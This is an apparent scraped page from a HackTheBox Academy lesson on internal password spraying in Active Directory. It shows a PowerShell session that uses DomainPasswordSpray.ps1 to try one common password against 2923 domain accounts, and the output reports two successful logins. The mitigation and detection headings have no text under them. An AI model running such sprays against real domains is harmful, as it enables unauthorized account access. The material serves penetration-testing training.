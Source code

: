 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/143/section/1422
// Platform Version: V1
// Module ID: 143
// Module Name: Active Directory Enumeration & Attacks
// Module Difficulty: Medium
// Section ID: 1422
// Section Title: Internal Password Spraying - from Windows
// Page Title: Active Directory Enumeration & Attacks
// Page Number: 12
-->

# Internal Password Spraying - from Windows

**Module Name:** Active Directory Enumeration & Attacks **Page Number:** 12

#### ACTIVE DIRECTORY ENUMERATION & ATTACKS

# Internal Password Spraying - from Windows

#### Using DomainPasswordSpray.ps1

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

## Mitigations

## Other Considerations

## Detection

## External Password Spraying

## Moving Deeper

# 

# 

#### Questions

####